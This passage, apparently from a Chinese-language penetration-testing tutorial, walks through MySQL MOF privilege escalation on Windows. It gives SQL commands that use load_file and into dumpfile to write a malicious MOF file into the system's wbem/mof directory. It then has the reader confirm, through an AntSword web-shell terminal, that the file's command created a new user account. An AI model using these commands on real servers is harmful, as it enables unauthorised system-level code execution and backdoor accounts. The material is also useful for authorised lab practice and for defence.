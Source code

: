 2.执行load_file及into dumpfile把文件导出到正确位置

```bash
select load_file('上传的mof文件路径') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'
```

🌰用DBeaver连接数据库执行mySQL语句，将mof文件到指定位置c:/windows/system32/wbem/mof/nullevt.mof

```bash
select load_file('c:/phpstudy/www/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof' 
```

​![image](assets/image-20241028162518-wox9n76.png)​

‍

3.执行成功后，验证mof文件中的cmd命令是否执行

🌰在蚁剑虚拟终端查看是否创建此用户​![image](assets/image-20241028162628-ke77q59.png)​
